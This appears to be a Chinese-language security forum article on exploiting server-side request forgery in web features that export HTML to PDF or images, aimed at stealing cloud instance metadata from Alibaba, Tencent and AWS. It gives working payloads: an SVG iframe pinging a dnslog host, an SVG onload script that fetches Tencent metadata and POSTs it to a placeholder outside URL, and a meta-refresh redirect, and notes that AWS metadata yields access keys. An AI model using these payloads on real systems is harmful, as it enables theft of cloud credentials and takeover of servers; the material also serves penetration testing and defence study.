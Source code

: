 0x00 前言
=======

文章开始前我们先讲述一下metadata service，也就是云服务器的元数据，每个云服务器厂商都有元数据，只是获取的接口地址不同，获取到的内容也不一样，有些元数据中是可以获取到登录凭证，可以直接接管服务器。由于元数据只能在云服务器上请求特定地址才能获取到，所以也常常用来作为ssrf利用方式的一种。

0x01 metadata service
=====================

阿里云
---

URL：<http://100.100.100.200>

基本实例元数据项，就不做展示了，感兴趣的可以查看下官方文档https://help.aliyun.com/document\_detail/214777.htm?spm=a2c4g.11186623.0.0.777a4a07R5OHxw#concept-2078137

动态实例元数据项

|  |  |  |
|---|---|---|
| **数据项** | **说明** | **示例** |
| /dynamic/instance-identity/document | 实例标识文档，用于提供实例的身份信息，包括实例ID、IP地址等。 | {"zone-id":"cn-hangzhou-i","serial-number":"4acd2b47-b328-4762-852f-99\*\*\*\*","instance-id":"i-bp13znx0m0me8cq\*\*\*\*","region-id":"cn-hangzhou","private-ipv4":"192.168.XX.XX","owner-account-id":"1609\*\*\*\*","mac":"00:16:3e:0f:XX:XX","image-id":"aliyun\_3\_x64\_20G\_alibase\_20210425.vhd","instance-type":"ecs.g6e.large"} |
| /dynamic/instance-identity/pkcs7 | 实例标识签名，供其他方验证实例标识文档的真实性和内容。 | MIIDJwYJKoZIhvcNAQcCoIIDGDCCAxQCAQExCzAJBgUrDgMCGgUAMIIBYQYJKoZIhvcNAQcBoIIBUgSCAU57InpvbmUtaWQiOiJjbi1oYW5nemhvdS1oIiwic2VyaWFsLW\*\*\*\* |

腾讯云
---

URL：<http://metadata.tencentyun.com/latest/meta-data/>

能够获取的信息比较少，可以查看下官方文档https://cloud.tencent.com/document/product/213/4934

AWS
---

URL：<http://169.254.169.254/latest/meta-data/>

访问http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-default-ssm/

可以直接获取AccessKeyId和SecretAccessKey

官方文档https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html

0x02 导出功能SSRF测试
===============

1、有些网站存在功能，能够将一些将数据分析的表格导出为pdf或者图片，如下POST数据包，html文件就是我们要导出的内容，而这里存在ssrf漏洞

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-f0271dc9c115d77f626a5558295ec87a69d690ad.png)

2、我们将html内容修改为

`<svg><iframe src="[http://123312.h41t0y.dnslog.cn"](http://123312.h41t0y.dnslog.cn") width=" " height=" "/></svg>`

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-74975a836a1015a3a6a31142af0faa5270abdb90.png)

可以看到成功触发了dnslog请求，说明此处是存在SSRF漏洞的。

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-0eca7beff0294aa789e9251c06a52b68070c3c1f.png)

0x03 SVG SSRF
=============

由于 SVG 的功能十分丰富，所以能够处理SVG 的服务器就很有可能遭受到 SSRF、XSS、RCE 等的攻击，特别是在没有禁用一些特殊字符的情况下。

GitHub上有个大佬整理了丰富的svg攻击payload

<https://github.com/allanlw/svg-cheatsheet>

我们可以利用如下payload去获取metadata service中的数据信息。

首先加载一个可以远程获取到的图片，加载成功后，会触发onload事件 ；

使用 Fetch API接口，将元数据信息在存储到“params”参数中；

服务器向URL地址发起携带params的POST请求，这样我们就可以在历史数据包中找到我们想要的元数据信息了。

同理此方法也可以获取其他想要的数据信息。

```php
<svg width="100%" height="100%" viewBox="0 0 100 100" 
xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<image xlink:href="https://www.baidu.com/img/flexible/logo/pc/result@2.png" height="20" width="20" onload="fetch('http://metadata.tencentyun.com/latest/meta-data/').then(function (response) {
response.text().then(function(text) {
var params = text;
var http = new XMLHttpRequest();
var url = 'https://xxxxxxxxxxxxxxxx/';
http.open('POST', url, true);
http.send(params);
})});" />
</svg>
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-89ebded150ffbfe0c308c745861c65fa26319a1f.png)

0x04 meta refresh
=================

利用：
---

当一些特殊标签比如&lt;svg&gt;,&lt;Iframe&gt;等被禁用后，我们可以使用&lt;meta&gt;0秒刷新请求元数据，以下为具体payload

```php
<meta http-equiv="refresh" content="0;url=http://metadata.tencentyun.com/latest/meta-data" />
```

那么目标服务器的metadata信息就会打印在输出的PDF文件上

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-da1d606f9eff5867571d31bf12bffc634e45a908.png)

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-f0aacaeacf315464c0cb5eb51b94a6ab6293238e.png)

拓展
--

应用程序导出数据为PDF或图片，会产生ssrf的原因，我认为是后端在处理数据的时候，没有进行过滤，导致了恶意代码的运行，那么我们在任意文件上传的漏洞，是不是可以直接上传svg文件，达到一些命令执行的效果呢

参考
--

<https://github.com/allanlw/svg-cheatsheet>

<https://infosecwriteups.com/svg-ssrfs-and-saga-of-bypasses-777e035a17a7>

<https://twitter.com/kunalp94/status/1502527605836173312>